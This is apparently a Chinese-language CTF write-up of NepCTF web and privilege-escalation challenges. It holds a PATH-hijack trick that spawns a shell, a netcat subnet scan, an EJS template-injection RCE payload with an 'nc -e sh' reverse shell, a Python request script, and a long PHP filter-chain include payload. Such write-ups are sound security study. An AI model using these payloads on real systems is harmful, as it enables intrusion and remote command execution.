 # ez_java_checkin
	- shiro工具直接打
		- 配置环境：首先`sudo dnf install java-1.8.0-openjdk-openjfx`，然后`java -cp /usr/lib/jvm/openjfx8/ -jar xxx.jar`
	- NepcTF{Ezjava_Chekin}
- # 独步天下
	- ## 转生成为镜花水月中的王者
		- 注意：这里的nmap貌似不是正常的nmap, 而是一个只会执行ports-alive的程序
		- 思路：通过设置PATH让nmap执行自定义的ports-alive文件
		- 在`/tmp`下新建fakebin文件夹，将需要执行的命令写入到`ports-alive`这个文件中，`chmod a+x ports-alive`给予其执行权限
		- 然后`export PATH=/tmp/fakebin:/sbin:/usr/sbin:/bin:/usr/bin`
		- 最后`nmap -V`
		- ```shell
		  cd /tmp
		  mkdir fakebin
		  cd fakebin
		  echo 'sh' > ports-alive
		  chmod a+x ports-alive
		  export PATH=/tmp/fakebin:/sbin:/usr/sbin:/bin:/usr/bin
		  nmap -V 
		  whoami
		  ```
	- ## 破除虚妄_探见真实
		- > 未解出，施工中
		- ```shell
		  for i in $(seq 1 100); do
		    echo 192.168.200.$i
		    echo -e "GET / HTTP/1.1\r\nHost: 192.168.200.$i\r\n\r\n" | nc 192.168.200.$i 80 | wc -l
		  done
		  
		  ```
		- 扫到192.168.200.1，看见Apache的默认页面
		- `/index.php`看到`<title>电脑版-中文-ZengCMS后台开发框架_ZengCMS内容管理系统</title>`
		- 审CMS
			- Download controller貌似可以进行任意文件读取
- # Post Crad For You
	- 参考： ((64d7a180-ce15-46d7-b3c5-9ae47612b34e))
	- https://eslam.io/posts/ejs-server-side-template-injection-rce/
	- 抄payload直接打
		- payload
			- ```text
			  /page?id=2&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 注意：因为render函数在传入文件名时会缓存渲染结果，我们需要关闭requests的自动redirect
		- ```python
		  r = base_get(url + "create", params = {
		      "name": "asdf",
		      "address": "asdf",
		      "message": "asdf"
		  }, allow_redirects = False)
		  pageid = r.text.rpartition("pageid=")[2].partition("&name=")[0]
		  print(pageid)
		  
		  payload = "sleep 5"
		  # payload = generate_reverse_shell_payload("xxx.org", 3001)
		  payload = "x;process.mainModule.require('child_process').execSync('{}');s".format(payload)
		  payload = enc_dec.urlencode(payload)
		  
		  r = base_get(url + "page?settings[view options][outputFunctionName]={}".format(payload), params = {
		      "name": "asdf",
		      "address": "asdf",
		      "message": "weshouldntseethis",
		      "pageid": pageid
		  })
		  if "weshouldntseethis" not in r.text:
		      with open("a.html", "w") as f:
		          f.write(r.text)
		  ```
- # Ez_include
	- > 施工中，未解出
	- 利用include实现RCE
		- 使用 ((63bc02d6-ea56-4c2a-a494-0cb277531dba)) 生成payload, 将base64encode前面的iconv删除就可以使用了
		- ```python
		  payload = "php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.iconv.ISO6937.EUC-JP-MS|convert.iconv.EUCKR.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CN.ISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/tmp/resources/3"
		  ```
	- 利用原生类实现文件夹读取
		- ```php
		  $a=new DirectoryIterator("glob:///*");
		  foreach($a as $f){
		  	echo $f.' ';
		  }
		  ```
-